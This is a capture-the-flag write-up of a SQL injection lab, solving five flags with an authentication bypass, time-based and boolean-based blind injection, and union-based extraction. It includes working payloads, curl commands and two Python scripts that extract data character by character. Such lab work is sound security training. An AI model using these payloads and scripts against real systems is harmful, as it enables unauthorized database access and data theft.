## Flag 1: Authentication Bypass

By accessing the website, I was on the home page.



I then noticed a login and register page. I first got to the login page and tried a random combination of admin as username and whatever as password. It was a dead end. I then created a new account, and got the message that registrations are no longer open.



On the login page, I tried an authentication bypass on the username without password: `' OR '1'='1' -- -` and got the first flag:

**_Flag: REDACTED_**

## Flag 2: Time-Based Blind SQLi

A hint for the flag 2 was: **_Make sure to read the terms and conditions ;)_**



The mention **"We log your IP address for analytics purposes"** means that the application records visitor's IP address somewhere and probably on databases.
A common way of monitoring a client IP is to add a header to the web request such as ‘X-Forwarded-For: '
By searching we found a payload causing an artificial response delay with SLEEP(5).

`127.0.0.1' AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '1'='1`

The flag `-w "\nTemps total: %{time_total}s\n"` shows the response time at the end





This payload confirmed a time-based SQLi.

I then adapted the payload for testing the content of the table flag string by string based on `SUBSTR()` for isolating a precise position:

```sql
1' AND (SELECT sleep(5) FROM flag WHERE SUBSTR(flag,1,1)='T') AND '1'='1
```

Instead of testing each character manually, I used a Python script that:

- loop on a set of possible character (`A-Z`, `0-9`, `{}`, `_`, `:`, `.`, `-`)
- send a request with the payload `SUBSTR(flag, position, 1) = character` for each tested character
- measure response time, if > 4 seconds, the character is correct
- go to the next position and rebuild the flag progressively until detecting the close bracket `}`

Script:

```python
import requests
import time
import string

url = "http://[target_ip]/"
charset = string.ascii_uppercase + string.digits + "{}_:.-"

flag = ""
position = 1

while True:
    found_char = None

    for char in charset:
        payload = f"1' AND (SELECT sleep(5) FROM flag WHERE SUBSTR(flag,{position},1)='{char}') AND '1'='1"
        headers = {"X-Forwarded-For": payload}

        start = time.time()
        requests.get(url, headers=headers)
        elapsed = time.time() - start

        if elapsed > 4:
            found_char = char
            break

    if found_char is None:
        print("No matching character found, stopping.")
        break

    flag += found_char
    print(f"Position {position}: '{found_char}' -> Current flag: {flag}")
    position += 1

    if found_char == "}":
        print("Full flag found!")
        break

print(f"\nFinal flag: {flag}")
```

At the end of the execution, we got the second flag:

**_Flag: REDACTED_**

## Flag 3: Boolean-Based Blind SQLi (Second-Order)

On the register page, if a username exists, we know it, which resembles a boolean-based SQLi



On the source page of /register, we discover an AJAX endpoint.
AJAX (Asynchronous JavaScript and XML) is a web development technique that allows data to be exchanged with a server in the background. It enables parts of a web page to be dynamically updated without reloading the entire page.



http://[target_ip]/register/user-check?username=admin' AND '1'='1 returns a false response and with '1'=2 we have a true response, the request no longer matches any user.
I used this script:

```Python
import requests
import string

url = "http://[target_ip]/register/user-check"
charset = string.ascii_uppercase + string.digits + "{}_:.-"

flag = ""
position = 1

while True:
    found_char = None

    for char in charset:
        payload = f"admin' AND SUBSTR((SELECT flag FROM flag LIMIT 1),{position},1)='{char}"
        params = {"username": payload}

        r = requests.get(url, params=params)
        resp = r.json()

        if resp['available'] == False:
            found_char = char
            break

    if found_char is None:
        print("No matching character found, stopping.")
        break

    flag += found_char
    print(f"Position {position}: '{found_char}' -> Current flag: {flag}")
    position += 1

    if found_char == "}":
        print("Full flag found!")
        break

print(f"\nFinal flag: {flag}")
```

And this is the third flag:

**_Flag: REDACTED_**

## Flag 4: Union-Based SQLi (Nested Second-Order Injection)

**_Hint flag 4: Well, dreams, they feel real while we're in them right?_**

At the beginning I looked at the source page and saw there interesting informations on the post publishers.



There you can see something like href="/user?id=1" and href="/post?id=1" which resembles an unsanitized input. I accessed it and got into the admin user's panel



Testing `/user?id=` the same way as `/post?id=` (with `union select null,...`), I confirmed the endpoint was injectable, but with two key differences from `/post`: the `id` value is **not quoted** in the backend query (no need for a leading `'`), confirmed by testing `union select null,null,null;-- -` directly without any quote. There is only **one real user** in the database, any other numeric id returns "Cannot find user", so `id=0` (or any non-existent id) must be used to isolate the injected UNION row, same trick as on `/post`.

### Column count & visible columns

I tried a union select payload and repeated adding null entires until I was able to determine the number of columns which was 3.

```bash
curl -G "http://[target_ip]/user" --data-urlencode "id=1 union select null;-- -"
```

```bash
curl -G "http://[target_ip]/user" --data-urlencode "id=1 union select null,null;-- -"
```

```bash
curl -G "http://[target_ip]/user" --data-urlencode "id=1 union select null,null,null;-- -"
```

3 columns confirmed. Testing which ones render on the page:

- Column 1: rendered as "User ID"
- Column 2: rendered as "Username"
- Column 3: not rendered

**Why** `null` rather than `1, 2, 3`: If a column in the table is of a non-numeric type (text, date), injecting a raw number can cause a mismatched type error on the MySQL side, even if the number of columns is correct.

### Second query discovered (nested injection)

While enumerating, I noticed that setting **column 1** to a non-null value (e.g. `1`) caused the page to also attempt displaying a **list of posts** for the user, even though the id itself was invalid. This meant the app runs a **second, separate SQL query** (fetching posts) using the value from column 1 as part of that query. This is effectively a second injection point, nested inside the first: whatever string I put in column 1 gets concatenated into that second "posts" query.

### Finding the column count of the nested query

```bash
curl -G "http://[target_ip]/user" --data-urlencode 'id=0 union select "1 union select null,null,null,null",null,null;-- -'
```

4 columns confirmed for the nested "posts" query (found by incrementing `null` count until the post list rendered without error, same technique as before).

### Extracting the flag

Replaced one of the nested `null` values with `flag`, and pointed the nested query at the `flag` table instead of `posts`:

```bash
curl -G "http://[target_ip]/user" --data-urlencode \ 'id=0 union select "1 union select null,flag,null,null from flag",null,null;-- -'
```



Fourth flag:

**_Flag: REDACTED_**

## Flag 5: In-Band SQLi

On the /post, I found an in-band SQLi because the error is displayed on the screen



**Step 1: Find the column count**

http://[target_ip]/post?id=1%20UNION%20SELECT%201

```sql
1 UNION SELECT 1
```

Error. Wrong number of columns. Try two:

```sql
1 UNION SELECT 1,2
```

I continue in that way till I found the wright number of columns

```sql
1 UNION SELECT 1,2,3,4
```



This means the `article` table has **4 columns**

**Step 2: Make your `UNION` output visible.** Set the article ID to `0` so the original query returns nothing:



With a valid ID like `1`, the legitimate article row fills the page, and our injected row gets pushed aside. Setting it to `0` returns no real article, so only our `UNION` output renders. The values `2` and `3` appear on the page. Column `3` shows up in the content area, which is the column we will use for extraction.

**Step 3: Get the database name.**

```sql
0 UNION SELECT 1,2,3,database()
```

`database()` is a MySQL function that returns the name of the current database.
The response didn't give me the database name. I then moved the database() function in column 2 and got the database's name: `sqhell_5`



**Step 4: List tables.**

```sql
0 UNION SELECT 1,2,3,4,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqhell_5'
```



`information_schema` is the database's own catalogue. It holds the names of every table in every database on the server. `group_concat()` concatenates all results into a single string so they fit in the single column we have available. You can now see the tables, including `flag`, `posts`, and `users`.

**Step 5: List columns in the target table.**

```sql
0 UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_name = 'flag'
```



This reveals the columns: `id` and `flag`.

**Step 6: Extract credentials.**

```sql
0 UNION SELECT 1,group_concat(id,':',flag SEPARATOR '<br>'),3,4 FROM flag
```

The last flag appeared on the page:

**_Flag: REDACTED_**

## Lessons Learned

This room was very instructive. One particular thing: I found the flags out of order, flag 5 (In-Band) was actually the first one I got, before I even went back to look for flags 1 through 4.

The In-Band SQLi was the easiest to find, since the error is displayed directly on the screen, which makes it much easier to work with.

The Union-Based SQLi (flag 4) was fairly difficult to deal with. I tried several payloads without success, and tried switching users, but there was apparently only one. That's when I tried the union select and it worked. **When facing a Union-Based SQLi, it's worth trying non-null values**.

More broadly, this room makes it easy to compare different SQLi families side by side: "visible" techniques like in-band, where the result shows up directly on screen, contrast with "blind" techniques like time-based and boolean-based, where the information has to be inferred indirectly (response time, true/false) using a script. This contrast gives a good sense of the growing difficulty between an injection that's easy to spot and one that has to be extracted character by character.
